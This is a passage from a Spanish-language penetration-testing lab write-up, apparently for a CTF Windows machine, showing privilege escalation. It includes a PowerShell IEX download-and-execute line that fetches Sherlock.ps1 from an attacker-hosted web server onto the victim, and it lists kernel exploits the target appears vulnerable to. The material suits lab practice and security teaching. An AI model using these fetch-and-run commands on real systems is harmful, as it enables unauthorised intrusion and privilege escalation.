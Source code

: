 ```bash
#OUTPUT
whoami
nt authority\iusr
```

## ESCALADA DE PRIVILEGIOS

Ahora que nos encontramos dentro de la máquina víctima, vamos a realizar un método mínimamente ruidoso para la explotación de vulnerabilidades con exploits públicos, por lo que vamos a hacer uso de la utilidad [Sherlock](https://raw.githubusercontent.com/rasta-mouse/Sherlock/master/Sherlock.ps1) del github de [rasta-mouse](https://github.com/rasta-mouse).

```bash
wget https://raw.githubusercontent.com/rasta-mouse/Sherlock/master/Sherlock.ps1
```

Modificar parámetro en el script

```bash
vim Sherlock.ps1
#AGREGAR EN LA ULTIMA LINEA
Find-AllVulns
```

Servicio `http` de python

```bash
sudo python3 -m http.server 80
```

En la máquina víctima ejecutamos

```bash
IEX(New-Object Net.WebClient).downloadString('http://10.10.14.13/Sherlock.ps1')
```

Resultados de `sherlock`

```bash
Title      : Task Scheduler .XML
MSBulletin : MS10-092
CVEID      : 2010-3338, 2010-3888
Link       : https://www.exploit-db.com/exploits/19930/
VulnStatus : Appears Vulnerable

Title      : ClientCopyImage Win32k
MSBulletin : MS15-051
CVEID      : 2015-1701, 2015-2433
Link       : https://www.exploit-db.com/exploits/37367/
VulnStatus : Appears Vulnerable

Title      : Secondary Logon Handle
MSBulletin : MS16-032
CVEID      : 2016-0099
Link       : https://www.exploit-db.com/exploits/39719/
VulnStatus : Appears Vulnerable
```
